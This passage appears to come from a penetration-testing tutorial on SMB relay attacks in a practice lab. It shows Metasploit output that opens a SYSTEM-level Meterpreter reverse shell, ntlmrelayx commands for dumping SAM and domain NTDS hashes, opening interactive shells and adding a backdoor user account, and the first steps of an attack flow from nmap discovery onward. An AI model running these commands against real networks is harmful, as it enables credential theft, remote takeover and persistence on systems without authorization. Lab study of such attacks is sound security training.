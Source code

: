 **Expected Results:**
```
[*] Started reverse TCP handler on 192.168.138.134:4444
[*] 192.168.1.10:445 - Connecting to the server...
[*] 192.168.1.10:445 - Authenticating to 192.168.1.10:445 as user 'fcastle'...
[*] 192.168.1.10:445 - Selecting PowerShell target
[*] 192.168.1.10:445 - Executing the payload...
[*] Sending stage (175174 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.138.134:4444 -> 192.168.1.10:xxxxx)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-TARGET
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : MARVEL
Logged On Users : 2
Meterpreter     : x64/windows
```

## Common ntlmrelayx Options

```bash
# Interactive shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

# Dump local SAM
sudo ntlmrelayx.py -tf targets.txt -smb2support --sam

# Dump domain hashes (if domain admin)
sudo ntlmrelayx.py -tf targets.txt -smb2support --ntds

# Execute specific command
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "net user hacker Password123 /add"

# Use specific interface
sudo ntlmrelayx.py -tf targets.txt -smb2support -if tun0
```

## Example Attack Flow

1. **Discovery:**
   ```bash
   nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
   ```

2. **Create targets file:**
   ```bash
   echo "10.0.0.35" > targets.txt
   ```
